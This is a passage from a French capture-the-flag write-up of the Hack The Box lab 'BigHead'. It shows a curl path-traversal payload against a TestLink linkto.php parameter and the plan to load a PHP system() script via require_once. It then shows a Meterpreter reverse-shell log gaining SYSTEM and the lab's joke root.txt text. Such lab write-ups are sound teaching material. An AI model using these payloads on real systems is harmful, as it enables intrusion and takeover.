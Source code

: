 On peut exploiter la vulnérabilité pour obtenir enfin le premier flag :  

```bash
curl -X POST http://code.bighead.htb/testlink/linkto.php --data "PiperID=set&PiperCoinID=../../../user.txt"
```

Comme à ce stade on ne dispose toujours pas de *vrai* exécution de commande, il faut pouvoir passer à *require\_once()* un script PHP à nous.  

Et ce n'est pas si facile car la plupart des [wrappers](https://secure.php.net/manual/en/wrappers.php) ont été désactivés (http, ftp, php, data).  

La solution adoptée a consisté à placer le script PHP (qui fait juste un *system()*) dans *C:\Users\Public\Downloads\*.  

```plain
[*] Started reverse TCP handler on 10.10.14.240:80
[*] Sending stage (179783 bytes) to 10.10.10.112
[*] Meterpreter session 621 opened (10.10.14.240:80 -> 10.10.10.112:49477) at 2018-12-15 11:56:50 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Avec des droits pareils on se dit qu'on en a enfin finit mais en fait non...  

```plain
meterpreter > cat root.txt

                    * * *

              Gilfoyle's Prayer

___________________6666666___________________
____________66666__________66666_____________
_________6666___________________666__________
_______666__6____________________6_666_______
_____666_____66_______________666____66______
____66_______66666_________66666______666____
___66_________6___66_____66___66_______666___
__66__________66____6666_____66_________666__
_666___________66__666_66___66___________66__
_66____________6666_______6666___________666_
_66___________6666_________6666__________666_
_66________666_________________666_______666_
_66_____666______66_______66______666____666_
_666__666666666666666666666666666666666__66__
__66_______________6____66______________666__
___66______________66___66_____________666___
____66______________6__66_____________666____
_______666___________666___________666_______
_________6666_________6_________666__________
____________66666_____6____66666_____________
___________________6666666________________

   Prayer for The Praise of Satan's Kingdom

              Praise, Hail Satan!
   Glory be to Satan the Father of the Earth
       and to Lucifer our guiding light
    and to Belial who walks between worlds
     and to Lilith the queen of the night
    As it was in the void of the beginning
                   Is now,
and ever shall be, Satan's kingdom without End

```